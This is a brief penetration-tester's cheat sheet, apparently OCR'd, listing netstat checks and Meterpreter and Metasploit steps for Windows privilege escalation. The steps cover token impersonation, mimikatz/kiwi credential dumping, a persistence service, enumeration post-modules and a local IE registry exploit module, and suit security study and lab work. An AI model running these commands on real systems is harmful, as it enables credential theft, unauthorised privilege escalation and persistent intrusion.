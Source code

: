 - Weak service permissions

Check book for instructions

#### Inside service

Check netstat to see what ports are open from outside and from inside. Look for ports only available on the inside.


#### Meterpreter

run get_local_subnets

netstat /a

netstat -ano

##### METERPRETER FOR WINDOWS PRIV ESCALATION

ps

tasklist

run scraper

Use privs

Get system

Token impersonation

Use kiwi

Create windows persistence service

mimikatz

use post/windows/gather/win_privs 

set session 3

run

use post/windows/gather/enum_domain

set session 3

run

use post/windows/gather/enum_logged_on_users 

set session 3

run

use post/windows/gather/enum_applications 

set session 3

run

use exploit/windows/local/ms13_097_ie_registry_symlink 
